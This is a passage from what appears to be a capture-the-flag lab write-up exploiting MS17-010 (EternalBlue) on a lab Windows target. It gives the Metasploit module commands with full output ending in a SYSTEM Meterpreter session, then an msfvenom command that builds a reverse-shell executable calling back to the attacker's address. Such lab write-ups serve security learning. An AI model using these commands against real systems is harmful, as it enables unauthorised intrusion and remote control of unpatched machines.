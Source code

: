 ## MS17-010 with Metasploit

Since I had not used Eternal Blue in `msfconsole`, though I would try (and document) the exploit.

```none
use exploit/windows/smb/ms17_010_psexec
set RHOSTS 10.10.10.4
set LHOST 10.10.14.4

msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.4:4444 
[*] 10.10.10.4:445 - Target OS: Windows 5.1
[*] 10.10.10.4:445 - Filling barrel with fish... done
[*] 10.10.10.4:445 - <---------------- | Entering Danger Zone | ---------------->
[*] 10.10.10.4:445 -    [*] Preparing dynamite...
[*] 10.10.10.4:445 -            [*] Trying stick 1 (x86)...Boom!
[*] 10.10.10.4:445 -    [+] Successfully Leaked Transaction!
[*] 10.10.10.4:445 -    [+] Successfully caught Fish-in-a-barrel
[*] 10.10.10.4:445 - <---------------- | Leaving Danger Zone | ---------------->
[*] 10.10.10.4:445 - Reading from CONNECTION struct at: 0x82236988
[*] 10.10.10.4:445 - Built a write-what-where primitive...
[+] 10.10.10.4:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.10.10.4:445 - Selecting native target
[*] 10.10.10.4:445 - Uploading payload... mxhfiscf.exe
[*] 10.10.10.4:445 - Created \mxhfiscf.exe...
[+] 10.10.10.4:445 - Service started successfully...
[*] Sending stage (175174 bytes) to 10.10.10.4
[*] 10.10.10.4:445 - Deleting \mxhfiscf.exe...
[*] Meterpreter session 1 opened (10.10.14.4:4444 -> 10.10.10.4:1031) at 2021-07-22 18:32:56 +1200

meterpreter >
```

Done! Metasploit is so easy with a discovered vulnerability. Lots of fun. But some other approaches, and learning something would be more fun.

## MS17-010 without Metasploit

Before we get started... this was a whirlwind adventure! Come along for the ride if you are interested in getting a stable and somewhat hassle-free environment to run the MS17-010 exploit! I had lots of problems along the way and resorted to a walkthrough that recommended a popular fork of the original `MS17-010` repo. This [fork was by a user named helviojunior](https://github.com/helviojunior/MS17-010), and provides a nice exploit. Kind of a "point-and-click", but without the Metasploit.

Let's just pretend for a second that we encounter no problems for the rest of this section, and can pass a reverse shell to the target. So, we should create said reverse shell. This is based on the instructions provided in the repo.

```none
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.4 LPORT=443 EXITFUNC=thread -f exe -a x86 --platform windows -o rev.exe
```
